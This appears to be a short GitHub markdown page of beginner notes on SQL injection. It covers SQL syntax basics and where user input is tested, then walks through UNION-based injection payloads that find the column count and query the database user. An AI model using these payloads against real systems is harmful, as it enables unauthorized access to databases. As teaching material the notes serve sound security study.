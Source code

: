 #### SQL Injection
* Allows user to execute SQL statements on the vulnerable server.

##### SELECT Statement
```
SELECT <column list> FROM <table> WHERE <condition>
```  
```
SELECT 22, 'string', 0x12, 'another string'
```  
  
##### UNION COMMAND
```
<SELECT STATEMENT 1 > UNION <SELECT STATEMENT 2>;
```
##### Comments
```
SELECT field FROM table; # test comment
SELECT field FROM table; -- test another comment  
```

  
![Screenshot at 2022-12-25 09-01-34](https://user-images.githubusercontent.com/85208639/209456088-7508953a-442e-4aae-bc4e-2ab6a5bbafec.png)


##### Extracting 1st Column of Product Field
```
SELECT Name, Description FROM Products WHERE ID='1'--
```


![Screenshot at 2022-12-25 09-09-04](https://user-images.githubusercontent.com/85208639/209456143-e1ea043b-9c88-4497-9f3d-386474e6a30f.png)

##### Common Locations To Check For SQLi
> Check places that take users input like Cookies, User-Agent, Accept-Language, GET, POST params, etc.

##### Exploiting UNION BASED SQLi

```
id='UNION SELECT null;-- - >> Error

Finding No of Fields
id='UNION SELECT null,null,null;-- - >> Use Hit and Trial until something changes

id='UNION SELECT null,null;-- - >> Change is Seen

id='UNION SELECT 'foo','bar';-- - >> Check reflected Field lets assume foo gets reflected. 
```

##### Quering User
```
id='UNION SELECT user(), 'bar';-- - >> user@localhost
```
